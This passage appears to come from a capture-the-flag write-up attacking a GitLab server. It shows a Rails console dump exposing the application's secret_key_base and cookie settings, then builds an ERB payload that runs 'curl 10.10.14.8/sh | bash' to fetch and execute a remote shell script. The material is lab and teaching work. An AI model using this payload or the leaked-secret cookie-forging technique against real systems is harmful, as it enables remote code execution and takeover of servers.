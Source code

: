 ```
=> #<ActionDispatch::Cookies::CookieJar:0x00007f0e7fafdb80 @set_cookies={}, @delete_cookies={}, @request=#<ActionDispatch::Request:0x00007f0e7ecc92f8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false, "action_dispatch.logger"=>#<ActiveSupport::Logger:0x00007f0e843f29f8 @level=1, @progname=nil, @default_formatter=#<Logger::Formatter:0x00007f0e84342300 @datetime_format=nil>, @formatter=#<ActiveSupport::Logger::SimpleFormatter:0x00007f0e843f29d0 @datetime_format=nil, @thread_key="activesupport_tagged_logging_tags:69850162500840">, @logdev=#<Logger::LogDevice:0x00007f0e843422b0 @shift_period_suffix=nil, @shift_size=nil, @shift_age=nil, @filename=nil, @dev=#<File:/opt/gitlab/embedded/service/gitlab-rails/log/production.log>, @mon_mutex=#<Thread::Mutex:0x00007f0e84342238>, @mon_mutex_owner_object_id=69850162139480, @mon_owner=nil, @mon_count=0>>, "action_dispatch.backtrace_cleaner"=>#<Rails::BacktraceCleaner:0x00007f0e8f9a0548 @silencers=[#<Proc:0x00007f0e8bff90b0@/opt/gitlab/embedded/service/gitlab-rails/config/initializers/backtrace_silencers.rb:8>], @filters=[#<Proc:0x00007f0e8f9b5d58@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/activesupport-6.0.2/lib/active_support/backtrace_cleaner.rb:97>, #<Proc:0x00007f0e8f9b5880@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:16>, #<Proc:0x00007f0e8f9b56c8@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:17>, #<Proc:0x00007f0e8f9b5650@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:18>], @root="/opt/gitlab/embedded/service/gitlab-rails/">, "action_dispatch.key_generator"=>#<ActiveSupport::CachingKeyGenerator:0x00007f0e7fddebd8 @key_generator=#<ActiveSupport::KeyGenerator:0x00007f0e7fddec00 @secret="3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", @iterations=1000>, @cache_keys=#<Concurrent::Map:0x00007f0e7fddebb0 entries=1 default_proc=nil>>, "action_dispatch.http_auth_salt"=>"http authentication", "action_dispatch.signed_cookie_salt"=>"signed cookie", "action_dispatch.encrypted_cookie_salt"=>"encrypted cookie", "action_dispatch.encrypted_signed_cookie_salt"=>"signed encrypted cookie", "action_dispatch.authenticated_encrypted_cookie_salt"=>"authenticated encrypted cookie", "action_dispatch.use_authenticated_cookie_encryption"=>false, "action_dispatch.encrypted_cookie_cipher"=>nil, "action_dispatch.signed_cookie_digest"=>nil, "action_dispatch.cookies_serializer"=>:marshal, "action_dispatch.cookies_digest"=>nil, "action_dispatch.cookies_rotations"=>#<ActiveSupport::Messages::RotationConfiguration:0x00007f0e98bedf18 @signed=[], @encrypted=[]>, "action_dispatch.use_cookies_with_metadata"=>false, "action_dispatch.content_security_policy"=>nil, "action_dispatch.content_security_policy_report_only"=>false, "action_dispatch.content_security_policy_nonce_generator"=>nil, "action_dispatch.content_security_policy_nonce_directives"=>nil, "rack.request.cookie_hash"=>{}, "action_dispatch.cookies"=>#<ActionDispatch::Cookies::CookieJar:0x00007f0e7fafdb80 ...>}, @filtered_parameters=nil, @filtered_env=nil, @filtered_path=nil, @protocol=nil, @port=nil, @method=nil, @request_method=nil, @remote_ip=nil, @original_fullpath=nil, @fullpath=nil, @ip=nil>, @cookies={}, @committed=false>

```

At this point it’s time to set the payload. I’ll use a simple curl to myself piping the results into `sh`:

```

irb(main):005:0> erb = ERB.new("<%= `curl 10.10.14.8/sh | bash` %>")
=> #<ERB:0x00007f0e7b4f89f0 @safe_level=nil, @src="#coding:UTF-8\n_erbout = +''; _erbout.<<(( `curl 10.10.14.8/sh | bash` ).to_s); _erbout", @encoding=#<Encoding:UTF-8>, @frozen_string=nil, @filename=nil, @lineno=0>

```
